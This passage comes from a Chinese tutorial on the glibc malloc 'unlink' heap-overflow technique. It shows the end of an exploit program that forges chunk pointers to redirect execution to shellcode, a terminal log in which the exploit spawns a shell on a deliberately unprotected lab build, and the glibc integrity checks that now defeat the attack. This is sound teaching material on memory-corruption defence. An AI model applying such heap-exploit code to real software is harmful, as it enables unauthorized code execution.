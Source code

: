 ``` c
        *( (void **)p ) = (void *)( FUNCTION_POINTER - 12 );
        p += 4;
        /* the bk field of the second chunk. It should point to shell code address.*/
        *( (void **)p ) = (void *)( CODE_ADDRESS );
        p += 4;
        /* the terminating NUL character */
        *p = '';
        /* the execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```
执行上面的漏洞利用程序，可以触发一个新的shell!  

```
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ ./exp 
$ ls
cmd  exp  exp.c  vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$
```

保护： 现如今，’glibc malloc’经过许多年的发展已经被强化了(hardened)，unlink已经技术无法成功执行。为了防御unlink技术带来的堆溢出，’glibc malloc’加入了下面的检查：    

* [两次释放(Double Free)](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3947) : 释放已经处于空闲状态的chunk是禁止的。当攻击者试图将’second’ chunk的大小覆盖为-4, 其PREV_INUSE位被复位，意味着’first’已经处于空闲状态。那么这时候再free(first)的话，’glibc malloc’会抛出一个两次释放错误。  
``` c
if (__glibc_unlikely (!prev_inuse(nextchunk)))
    {
      errstr = "double free or corruption (!prev)";
      goto errout;
    }
```
* [无效的next size](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3954) : 下一个chunk的大小介于8字节与arena的总系统内存之间。当攻击者试图将’second’ chunk的大小覆盖为-4,’glibc malloc’会抛出一个无效的next size错误 
``` c
if (__builtin_expect (nextchunk->size <= 2 * SIZE_SZ, 0)
        || __builtin_expect (nextsize >= av->system_mem, 0))
      {
        errstr = "free(): invalid next size (normal)";
        goto errout;
      }
```
* [损坏的双链表](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L1414) ： 前一个chunk的fd和后一个chunk的bk必须指向当前被unlinked的chunk。当攻击者分别将fd和bk覆盖为-12与shellcode地址， free和(shellcode地址+8)没有指向当前被unlinked的chunk(‘second’)。 ‘glibc malloc’会抛出一个损坏的双链表错误.  
```
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                     
      malloc_printerr (check_action, "corrupted double-linked list", P);
```
